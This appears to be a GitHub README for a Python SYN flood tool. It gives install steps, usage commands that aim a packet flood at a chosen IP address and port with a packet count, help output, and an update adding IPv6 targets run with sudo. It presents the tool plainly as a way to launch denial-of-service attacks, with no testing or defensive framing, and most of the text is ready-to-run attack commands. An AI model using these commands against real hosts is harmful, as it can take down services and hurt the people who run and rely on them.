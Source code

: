 Python SYN Flood Attack Tool

You can start SYN Flood attack with this tool.

Simple and efficient.

## Dependencies
```
apt install python-scapy
apt install python3-scapy
```

## Installation

```
git clone https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool.git
cd Python-SYN-Flood-Attack-Tool
```

## Usage

```
python3 py3_synflood_cmd.py -t 10.20.30.40 -p 8080 -c 5
python3 py3_SYN-Flood.py
python SYN-Flood.py
```
```
usage: py3_synflood_cmd.py [-h] [--target TARGET] [--port PORT]
                           [--count COUNT] [--version]

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target IP address
  --port PORT, -p PORT  target port number
  --count COUNT, -c COUNT
                        number of packets
  --version, -v         show program's version number and exit

Usage: python3 py3_synflood_cmd.py -t 10.20.30.40 -p 8080 -c 1
```

# Update(2024/07/23)
Add IPv6 support, you can use command like following
```
sudo python3 py3_synflood_cmd.py -t 2001:b030:7140:ac00:ed50:b959:3649:be45 -p 52916 -c 100 -f 6
```
